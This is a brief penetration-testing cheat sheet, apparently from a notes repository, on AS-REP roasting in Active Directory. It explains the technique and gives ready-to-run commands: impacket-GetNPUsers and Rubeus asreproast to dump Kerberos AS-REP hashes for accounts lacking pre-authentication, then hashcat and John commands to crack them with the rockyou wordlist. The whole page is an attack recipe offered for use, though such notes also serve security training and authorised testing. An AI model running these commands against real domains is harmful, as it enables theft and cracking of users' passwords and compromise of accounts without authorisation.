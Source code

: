 AS-REP roasting works by scanning for users on an AD-network without the "Require pre-authentication" flag enabled.
Where normally, you'd need to send a ticket request to the DC encrypted with the target user's password, it is not required for machines without pre-authentication.
This means you can get the KRB-AS-REP hash without the user's password.

## Impacket
##### Requirements
Domain name of the AD
IP address of the Domain Controller
A list of target users

##### Obtaining hashes
Impacket will dump the KRB5AS-REP hash of all users with pre-authentication disabled:
```
impacket-GetNPUsers 'DOMAIN_NAME/' -usersfile users.txt -no-pass -dc-ip 10.10.30.254
```
Note: make sure to add the `/` after the `DOMAIN_NAME`, otherwise the exploit will fail.

## Rubeus.exe
##### Requirements
Access to the AD (any)

##### Obtaining hashes
Rubeus will dump the KRB5ASREP hash of all users with pre-authentication disabled:
```
./Rubeus.exe asreproast /nowrap
./Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt
```

##### Cracking hashes
Important: Make sure to add "$23" to the hash, so that it resembles
```
$krb5asrep$23$USERNAME@MACHINE.DOMAIN:HASH
```

Crack hashes using Hashcat:
```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
John:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```